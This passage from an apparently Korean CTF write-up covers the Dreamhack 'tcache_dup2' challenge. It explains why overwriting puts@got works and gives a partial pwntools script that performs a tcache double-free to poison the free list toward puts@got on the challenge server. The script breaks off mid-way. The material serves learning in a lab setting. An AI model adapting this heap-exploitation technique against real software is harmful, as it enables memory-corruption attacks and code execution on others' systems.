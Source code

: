 <img width="971" alt="image" src="https://github.com/user-attachments/assets/cb3ad2f4-62cd-427b-b010-3d5e9d443d84">

따라서, `free@got`를 overwrite 하는 방법도 불가능하기 때문에, 그럼 오히려 `puts@got`를 `overwrite` 하면 되겠다는 생각으로 `ex.py` 익스플로잇 코드를 작성하였다.
 
`puts@got`는 위의 이미지에서 보듯이 뒤에 카나리가 변조되었을 때 호출되는 `__stack_chk_fail@got`이 존재하기 때문이다.

<br>

## Exploit : **ex-1.py**

```py
from pwn import *

p = remote('host3.dreamhack.games', 21924)
elf = ELF('./tcache_dup2')


def create(size, data):
    p.sendlineafter(b'> ', b'1')
    p.sendlineafter(b'Size: ', str(size).encode())
    p.sendafter(b'Data: ', data)


def modify(idx, size, data):
    p.sendlineafter(b'> ', b'2')
    p.sendlineafter(b'idx: ', str(idx).encode())
    p.sendlineafter(b'Size: ', str(size).encode())
    p.sendafter(b'Data: ', data)


def delete(idx):
    p.sendlineafter(b'> ', b'3')
    p.sendlineafter(b'idx: ', str(idx).encode())


# tcache[0x20] : empty
# tc_idx = 0
# chunk : ptr[0]
create(0x20, b'a')


# tcache[0x20] : ptr[0]
# tc_idx = 1
# chunk : ptr[0]
delete(0)


# tcache[0x20] : ptr[0] -> b'aaaaaaaa'
# tc_idx = 1
# chunk : ptr[0]
modify(0, 0x10, b'a'*0x9)


# tcache[0x20] : ptr[0] -> ptr[0] + 0x10
# tc_idx = 2
# chunk : ptr[0]
delete(0)


# tcache[0x20] : ptr[0] -> puts@got
# tc_idx = 2
# chunk : ptr[0]
puts_got = elf.got['puts']
```